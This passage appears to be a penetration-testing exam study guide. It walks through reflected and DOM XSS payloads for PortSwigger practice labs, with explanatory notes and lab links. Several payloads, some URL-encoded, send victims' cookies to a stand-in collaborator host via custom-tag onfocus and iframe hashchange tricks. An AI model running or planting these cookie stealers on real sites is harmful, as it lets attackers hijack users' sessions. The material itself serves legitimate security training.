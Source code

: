 ```
<script>
location = 'https://TARGET.net/?search=<xss+id=x+onfocus=document.location='https://OASTIFY.COM/?c='+document.cookie tabindex=1>#x';
</script>
```

> **Note:** The custom tag with the ID `x`, which contains an **onfocus** event handler that triggers the `document.location` function. The **HASH** `#` character at the end of the URL focuses on this element as soon as the page is loaded, causing the payload to be called. Host the payload script on the exploit server in `script` tags, and send to victim. Below is the same payload but **URL-encoded** format.

```
<script>
location = 'https://TARGET.net/?search=%3Cxss+id%3Dx+onfocus%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```

[![Custom XSS tag](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/custom-xss-tag.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/custom-xss-tag.png)

[PortSwigger Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

[z3nsh3ll - explaining custom tags for XSS attacks](https://youtu.be/sjs6RS7lURk)
### OnHashChange

> Below iframe uses **HASH** `#` character at end of the URL to trigger the **OnHashChange** XSS cookie stealer.

```js
<iframe src="https://TARGET.net/#" onload="document.location='http://OASTIFY.COM/?cookies='+document.cookie"></iframe>
```

> Note if the cookie is secure with **HttpOnly** flag set enabled, the cookie cannot be stolen using XSS.

> PortSwigger Lab payload perform print.

```js
<iframe src="https://TARGET.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

> Note: _**Identify**_ the vulnerable jquery 1.8.2 version included in the `source code` with the CSS selector action a the **hashchange**.

[![Hashchange](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/hashchange.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/hashchange.png)

[PortSwigger Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)
